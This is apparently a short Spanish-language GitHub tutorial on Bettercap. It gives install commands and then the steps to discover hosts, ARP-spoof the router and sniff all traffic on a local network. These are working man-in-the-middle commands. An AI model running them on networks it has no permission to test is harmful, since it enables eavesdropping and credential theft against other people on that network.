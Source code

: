 # Análisis con Bettercap
<br>

<p align="center">
<img src="./Img/logo.jpg">
</p>

<br>

Bettercap es una herramienta potente, flexible y portátil creada para realizar varios tipos de ataques MITM contra una red, manipular HTTP, HTTPS y tráfico TCP en tiempo real, buscar credenciales y mucho más.

<br>

## Instalación

```
sudo apt-get install build-essential ruby-dev libpcap-dev

apt-get update

apt-get install bettercap
```

<br>

## USO

Abriremos una nueva terminal y ejecutaremos lo siguientes comandos:

```
bettercap

net.probe on

ticker on
```

Como podmeos observar son las IP de nuestra red local.

<br>

![Informatica](Img/IP.jpg)

<br>

En la misma terminal ejecutaremos de nuevo bettercap, seleccionamos la IP que vamos analizár en este caso vamos a nalizar todas las IP para esto seleccionamos la IP del router.

```
set arp.spoof targets 192.168.1.1

arp.spoof on

set net.sniff.verbose false

net.sniff on
```

Y nos mostrara todo el tráfico de todos los dispositivos.

<br>

![Informatica](Img/trafico.png)

<br>



